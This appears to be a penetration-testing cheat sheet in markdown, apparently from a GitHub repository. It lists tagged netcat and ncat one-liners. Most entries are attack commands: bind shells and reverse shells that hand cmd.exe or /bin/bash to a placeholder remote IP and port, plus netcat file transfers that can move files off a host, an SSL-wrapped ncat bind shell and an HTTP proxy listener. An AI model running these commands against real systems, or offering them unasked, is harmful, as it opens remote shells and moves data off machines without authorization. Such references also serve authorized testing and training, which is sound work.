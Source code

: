 # netcat

% nc, netcat

#platform/linux #target/remote  #cat/ATTACK/LISTEN-SERVE 
## nc setup listener
```
nc -nlvp <lport>
```

## nc bind shell windows
#platform/windows 
```
nc -nlvp <port> -e cmd.exe
```

## nc bind shell linux
#platform/linux
```
nc -nlvp <port> -e /bin/bash
```

## nc reverse shell windows
#platform/windows  #cat/ATTACK/REVERSE_SHELL 
```
nc -nv <ip> <port> -e cmd.exe
```

## nc reverse shell linux
#platform/linux #cat/ATTACK/REVERSE_SHELL 
```
nc -nv <ip> <port> -e /bin/bash
```

## nc transfer file - receiver
#platform/linux #cat/ATTACK/FILE_TRANSFERT 
```
nc -nlvp <port> > <incomming_file>
```

## nc transfer file - sender
#platform/linux #cat/ATTACK/FILE_TRANSFERT 
```
nc -nv <ip> <port> < <file_to_send>
```

# ncat

% ncat

## ncat bind shell ssl filtered
#platform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat --exec cmd.exe --allow <allowed_ip> -vnl <port> --ssl
```

## ncat bind shell ssl connection
#platform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat -v <ip> <port> --ssl
```

## ncat HTTP WEB proxy
#platform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat --listen --proxy-type http <port>
```

